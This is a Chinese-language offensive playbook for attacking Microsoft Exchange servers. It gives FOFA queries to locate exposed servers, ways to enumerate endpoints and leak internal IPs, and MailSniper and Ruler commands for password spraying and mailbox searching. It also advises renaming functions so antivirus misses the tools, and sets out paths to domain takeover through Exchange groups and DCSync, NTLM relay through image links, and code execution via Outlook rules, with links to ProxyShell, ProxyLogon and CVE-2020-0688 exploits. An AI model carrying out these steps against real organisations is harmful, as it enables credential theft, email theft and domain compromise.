

针对EXCHANGE的攻击方式
目录
exchange快速了解
FOFA：
microsoft exchange 2013：
app="Microsoft-Exchange-2013"||app="Microsoft-Exchange-Server-2013-CU21"||app="Microsoft-Exchange-Server-2013-CU17"||app="Microsoft-Exchange-Server-2013-CU23"||app="Microsoft-Exchange-Server-2013-CU13"||app="Microsoft-Exchange-Server-2013-CU22"||app="Microsoft-Exchange-Server-2013-CU11"||app="Microsoft-Exchange-Server-2013-CU2"||app="Microsoft-Exchange-Server-2013-CU16"||app="Microsoft-Exchange-Server-2013-CU19"||app="Microsoft-Exchange-Server-2013-CU3"||app="Microsoft-Exchange-Server-2013-CU18"||app="Microsoft-Exchange-Server-2013-CU5"||app="Microsoft-Exchange-Server-2013-CU20"||app="Microsoft-Exchange-Server-2013-CU12"||app="Microsoft-Exchange-Server-2013-CU15"||app="Microsoft-Exchange-Server-2013-CU10"||app="Microsoft-Exchange-Server-2013-CU9"||app="Microsoft-Exchange-Server-2013-CU6"||app="Microsoft-Exchange-Server-2013-CU7"||app="Microsoft-Exchange-Server-2013-CU1"||app="Microsoft-Exchange-Server-2013-CU14"||app="Microsoft-Exchange-Server-2013-CU8"||app="Microsoft-Exchange-Server-2013-RTM"||app="Microsoft-Exchange-Server-2013-SP1"||app="Microsoft-Exchange-2013"
microsoft exchange 2016：
app="Microsoft-Exchange-Server-2016-CU19"||app="Microsoft-Exchange-Server-2016-CU3"||app="Microsoft-Exchange-Server-2016-CU12"||app="Microsoft-Exchange-Server-2016-RTM"||app="Microsoft-Exchange-Server-2016-CU7"||app="Microsoft-Exchange-Server-2016-CU17"||app="Microsoft-Exchange-Server-2016-CU2"||app="Microsoft-Exchange-Server-2016-CU1"||app="Microsoft-Exchange-Server-2016-CU14"||app="Microsoft-Exchange-Server-2016-CU5"||app="Microsoft-Exchange-Server-2016-CU11"||app="Microsoft-Exchange-Server-2016-CU9"||app="Microsoft-Exchange-Server-2016-CU16"||app="Microsoft-Exchange-Server-2016-CU10"||app="Microsoft-Exchange-Server-2016-CU6"||app="Microsoft-Exchange-Server-2016-CU13"||app="Microsoft-Exchange-Server-2016-CU18"||app="Microsoft-Exchange-Server-2016-CU8"||app="Microsoft-Exchange-Server-2016-CU4"||app="Microsoft-Exchange-2016-POP3-server"
microsoft exchange 2019：
app="Microsoft-Exchange-Server-2019-CU5"||app="Microsoft-Exchange-Server-2019-CU3"||app="Microsoft-Exchange-Server-2019-Preview"||app="Microsoft-Exchange-Server-2019-CU8"||app="Microsoft-Exchange-Server-2019-CU1"||app="Microsoft-Exchange-Server-2019-CU7"||app="Microsoft-Exchange-Server-2019-CU2"||app="Microsoft-Exchange-Server-2019-CU6"||app="Microsoft-Exchange-Server-2019-RTM"||app="Microsoft-Exchange-Server-2019-CU4"
microsoft exchange 2010：
app="Microsoft-Exchange-2010-POP3-server-version-03.1"||app="Microsoft-Exchange-Server-2010"

邮件服务器角色
在exchange 2010中，exchange包含五个服务器角色，分别为邮箱服务器，客户端访问服务器，集线传输服务器，统一消息服务器，边缘传输服务器。 在后来的exchange 2013中服务器被精简为3个：邮箱服务器，客户端访问服务器，边缘传输服务器 exchange 2016和2019中则只有 邮箱服务器和边缘传输服务器了。
exchange 2010
邮箱服务器
mailbox server，提供托管邮箱，公共文件夹等服务，是必选的服务器角色
客户端访问服务器
client access server，用来接收并处理不同客户端的请求，并提供各种接口给客户以访问Exchange服务,
MAPI访问
POP3和IMAP4访问
Outlook Web App访问（OWA）
Outlook Anywhere访问
Autodiscover自动发现服务
可用性服务
集线传输服务器
hub transport server，核心服务是Microsoft Exchange Transport，用于处理大多数邮件的路由、策略等以及Mail Flow。起一个邮件传输中继的作用。
统一消息服务器
unified messaging server，用于允许邮箱用户可以在邮件中发送存储语音消息和传真消息，可选角色
边缘传输服务器
edge transport server，通常部署于网络边界。其接受来自内部组织的邮件和来自外部可信服务器的邮件，然后应用特定的反垃圾邮件、反病毒策略，最后将通过策略筛选的邮件路由到内部的集线传输服务器，可选角色
exchange 2013
邮箱服务器
托管邮箱、公共文件夹等数据，主要包含集线传输服务（Hub Transport service）和邮箱传输服务（Mailbox Transport service）两大组件服务。
客户端访问服务器
负责认证、重定向、代理来自外部不同客户端的访问请求，主要包含客户端访问服务（Client Access service）和前端传输服务（Front End Transport service）两大组件。
边缘传输服务器
负责路由出站与入站邮件、策略应用等。
接口和协议
OWA
owa即 outlook web app,即outlook的网页版。（outlook是exchange的客户端软件，许多电脑都有所预装） 地址一般为 http://aa.com/owa

ECP
Exchange Administrative Center,即exchange管理中心，管理员的web控制台

outlook anywhere
作用是可以让外网用户直接通过outlook anywhere 直接登录到exchange邮箱而无需使用VPN。该特性在exchange server 2013中默认开启，也就是说在exchange server 2013 以后outlook 不再区分内外网环境。
MAPI
于Exchange 2013 SP1和Outlook 2013 SP1中被提出的一种新的outlook与exchange交互传输协议。
EAS
Exchange ActiveSync是一种允许用户通过移动设备或其他便携式设备访问和管理邮件、联系人、日历等Exchange功能的同步协议，在Windows上使用时其进程名称为wcesomm.exe。”
EWS
Exchange Web Service，是exchange提供的一套API编程接口，用于操作exchange相关功能，于exchange server 2007被提出。
功能和服务
Autodiscover
Autodiscover，自动发现，是exchange server 2007 推出的一个服务。 该服务目的是简化用户登录流程：用户只需要输入自己的电子邮件地址和密码，就能够通过Autodiscover服务获取运行客户端应用程序所需的配置信息 该服务运行在客户端访问服务器上。
GAL
GAL即全局地址表（global address list）
记录了域中用户的基本信息与其邮箱地址，以形成域用户与邮箱用户之间的关联。 在渗透中可以通过GAL来获取所有邮箱地址。
EXCHANGE信息搜集
在渗透中该如何发现哪一台机器是EXCHANGE服务器呢？ 在exchange server 2019 中，由于只细分了邮箱服务器和边缘传输服务器，所以开放了如OWA，ECP等接口的服务器即为邮箱服务器。
发现
端口扫描
exchange会对外暴露接口如OWA,ECP等，所以我们可以通过一些端口特征来发现exchange。 exchange 接口会暴露在80端口，同时25/587/2525等端口上会有SMTP服务。

spn
如果已经打入域中，想快速的定位到exchange服务器，只需要查询域中spn服务即可。
setspn -q */*

特殊域名
https://autodiscover.domain.com/autodiscover/autodiscover.xml
https://owa.domian/owa/
https://mail.domain.com/
https://webmail.domain.com/
寻找接口
/autoDiscover/ 自Exchange Server 2007开始推出的一项自动服务，用于自动配置用户在Outlook中邮箱的相关设置，简化用户登陆使用邮箱的流程。
/ecp/“Exchange Control Panel” Exchange管理中心，管理员用于管理组织中的Exchange的Web控制台
/eWS/“Exchange Web Services” Exchange Web Service,实现客户端与服务端之间基于HTTP的SOAP交互
/mapi/ Outlook连接Exchange的默认方式，在2013和2013之后开始使用，2010 sp2同样支持
/microsoft-Server-ActiveSync/ 用于移动应用程序访问电子邮件
/OAB/“Offline Address Book” 用于为Outlook客户端提供地址簿的副本，减轻Exchange的负担
/owa/“Outlook Web APP” Exchange owa 接口，用于通过web应用程序访问邮件、日历、任务和联系人等
/powerShell/ 用于服务器管理的Exchange管理控制台
/Rpc/ 早期的Outlook还使用称为Outlook Anywhere的RPC交互
工具使用
https://github.com/vysec/checkO365
版本确定
可以通过OWA,ECP的HTML源代码确定版本
源代码搜索favicon.ico

可以看到一串数字 15.0.1130,这是exchange具体版本号，到这里查就行了https://docs.microsoft.com/zh-cn/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019
IP泄露
抓包以下接口包，将HTTP版本改为1.0，并删除HOST头，就会暴露exchange ip，有时会暴露内网IP
/Microsoft-Server-ActiveSync/default.eas
/Microsoft-Server-ActiveSync
/Autodiscover/Autodiscover.xml
/Autodiscover
/Exchange
/Rpc
/EWS/Exchange.asmx
/EWS/Services.wsdl
/EWS
/ecp
/OAB
/OWA
/aspnet_client
/PowerShell

想要更方便的话，可以用msf的模块自动搜集 use auxiliary/scanner/http/owa_iis_internal_ip
泄露exchange服务器信息
当我们对exchange服务器进行NTLM质询时,在服务器返回challenge时同时会返回域信息，机器名等信息。以此为基础可以对exchange进行服务器信息搜集
直接nmap
nmap host -p 443 --script http-ntlm-info --script-args http-ntlm-info.root=/rpc/rpcproxy.dll -Pn

EXCHANGE 外围打点
proxyshell 命令执行
· Exchange Server 2013 Versions < Builder 15.0.1497.012
· Exchange Server 2016 CU18 < Builder 15.1.2106.013
· Exchange Server 2016 CU19 < Builder 15.1.2176.009
· Exchange Server 2019 CU7 < Builder 15.2.0721.013
https://github.com/dmaasland/proxyshell-poc.git
https://github.com/horizon3ai/proxyshell
爆破
接触到exchange的第一步自然是接触到它的接口服务如OWA,ECP等。 由于是登录框，我们自然可以用爆破来进行攻击。通常情况下EXCHANGE不限制大字典爆破。
常见可爆破接口
/Autodiscover/Autodiscover.xml # 自 Exchange Server 2007 开始推出的一项自动服务,用于自动配置用户在Outlook中邮箱的相关设置,简化用户登录使用邮箱的流程。
/Microsoft-Server-ActiveSync/default.eas
/Microsoft-Server-ActiveSync # 用于移动应用程序访问电子邮件
/Autodiscover
/Rpc/ # 早期的 Outlook 还使用称为 Outlook Anywhere 的 RPC 交互
/EWS/Exchange.asmx
/EWS/Services.wsdl
/EWS/ # Exchange Web Service,实现客户端与服务端之间基于HTTP的SOAP交互
/OAB/ # 用于为Outlook客户端提供地址簿的副本,减轻 Exchange 的负担
/owa # Exchange owa 接口,用于通过web应用程序访问邮件、日历、任务和联系人等
/ecp # Exchange 管理中心,管理员用于管理组织中的Exchange 的Web控制台
/Mapi # Outlook连接 Exchange 的默认方式,在2013和2013之后开始使用,2010 sp2同样支持
/powershell # 用于服务器管理的 Exchange 管理控制台
爆破比较实用的工具有Eburst和Ruler
https://github.com/grayddq/EBurst （py）
https://github.com/sensepost/ruler （exe）
ruler由于windows版的显示似乎有点问腿，这里用的linux版本

autodiscover 爆破的原理是，访问autodiscover时浏览器会弹出认证框，当输入正确的凭证后则会显示XML文档内容。


ps\://github.com/dafthack/MailSniper （ps1）
下面的是密码喷洒的攻击方式，-Password项也可以设置为一个记录password的字典txt
对OWA进行爆破
Import-Module .\MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname OWAHOST -UserList .\user.txt -Password password -Threads 1 -Domain domainname -OutFile out.txt -Verbose
对EWS进行爆破
Invoke-PasswordSprayEWS -ExchHostname EWSHOST -UserList .\user.txt -Password password -Threads 1 -Domain domainname -OutFile out.txt -Verbose
EXCHANGE 后渗透
邮件内容检索
我们获取一个exchange用户以后，可以对邮件列表进行检索获取敏感信息，方便下一步渗透
MailSniper 可以完成这个任务，但是这个工具感觉被杀的比较严重，可以试着修改一下函数名变量名啥的免免杀。
检索指定用户
检索rengan@const.com的 收件箱文件夹里的 内容含有机密的 邮件，在启用remote参数后会弹出一个输入框输入邮箱票据
Invoke-SelfSearch -Mailbox rengan@const.com -Terms *机密* -Folder 收件箱 -ExchangeVersion Exchange2013_SP1 -remote -OutputCsv a.csv
可以发现在中文的exchange下，用户的邮件一般存放于""收件箱""文件夹，而对于英文则是"inbox"

获取全局地址表
通用方案MailSniper
依旧通过MailSniper 实现，在我们获得一个合法用户的凭据以后，就可以通过获取全局地址表来获取所有邮箱地址。
Get-GlobalAddressList -ExchHostname Ex -UserName rengan -ExchangeVersion Exchange2013_SP1 -Password ganren@123456

在域内进行导出
Import-PSSession是自带的
$User = "test\administrator"
$Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.test.com/PowerShell/ -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber
查看PSSession：
Get-PSSession
断开PSSession：
Remove-PSSession \$Session
测试命令(获得所有邮箱用户):
Get-Mailbox
ruler导
.\ruler-win64.exe -e idm@chinaexpressair.com -p Sys@123456 --url https://autodiscover.chinaexpressair.com/autodiscover/autodiscover.xml abk list
查找存在缺陷的用户邮箱权限委派
一个用户的文件夹是可以给其他用户权限的。

点击此处的权限，来到以下界面，这里的默认即 所有用户(everyone) 的对此文件夹的权限，我这里是把权限给的很高

实战中也可能会遇到用户A对用户B的收件箱有读写权限的情况，所以我们在获取用户A的凭据后可以进而读取用户B的收件箱。
用MailSniper 实现
Invoke-OpenInboxFinder -ExchangeVersion Exchange2013_SP1 -ExchHostname ex.const.com -EmailList .\user.txt -remote

既然这里对administrator的收件箱可读，那么就可以用invoke-selfsearch 进行详细的邮件检索了。
通过exchange用户组进行域提权
exchange安装后会在AD上生成两个容器

其中exchange windows permissions组的用户拥有writeDACL权限， Exchange Trusted Subsystem 是 Exchange Windows Permission 的成员，能继承writedacl权限，有这个权限后就能使用dcsync导出所有用户hash。 其中exchange trusted subsystem组甚至可能有继承自administrators组的权限。

同时，在安装exchange后还会生成一个组Organization Management，这个组可以修改其他exchange组的用户信息，所以当然也可以修改Exchange Trusted Subsystem组的成员信息，比如向里面加一个以获得的用户。
综上所述，只要获得Organization Management,Exchange Trusted Subsystem,Exchange Windows Permission,就可以通过dcsync来获取整个域权限。 当然，想获得上述组用户权限，还是不太容易的。
NTLM relay
用exchange也可以很方便的进行NTLM relay：给用户发一封邮件，其中包含的图片链接形如 \\10.10.10.1\a.jpg，用户收到邮件后则会向10.10.10.1发送NTLM质询，从而造成NTLM relay。 其实EXCHANGE 很多CVE 都是与NTLM RELAY 挂钩的，如CVE-2018-8581，CVE-2020-17141 ，CVE-2020-17143，CVE-2019-1040
OUTLOOK 命令执行
OUTLOOK 客户端有一个 规则与通知 的功能，通过该功能可以使outlook客户端在指定情况下执行指定的指令。若我们获得某用户的凭证，可以通过此功能设置“用户收到含指定字符的邮件时 执行指定的指令比如clac.exe”，当用户登录outlook客户端并访问到此邮件时，它的电脑便会执行calc.exe。 但是，当触发动作为启动应用程序时，只能直接调用可执行程序，如启动一个exe程序，但无法为应用程序传递参数，想要直接上线，我们可以将EXE放到某共享目录下，或者直接上传到用户的机器。
具体步骤为打开规则与通知功能，然后新建功能，在接收到某条件邮件时启动指定应用程序


收到含abc内容的邮件后，成功弹计算器

proxylogon 命令执行
Exchange Server 2019 < 15.02.0792.010
Exchange Server 2019 < 15.02.0721.013
Exchange Server 2016 < 15.01.2106.013
Exchange Server 2013 < 15.00.1497.012
https://github.com/jeningogo/exchange-ssrf-rce/blob/main/exchange-exp.py
前提是需要一个outlook账户
CVE-2020-0688 rce
Microsoft Exchange Server 2010 Service Pack 3
Microsoft Exchange Server 2013
Microsoft Exchange Server 2016
Microsoft Exchange Server 2019
需要一个账户
https://github.com/zcgonvh/CVE-2020-0688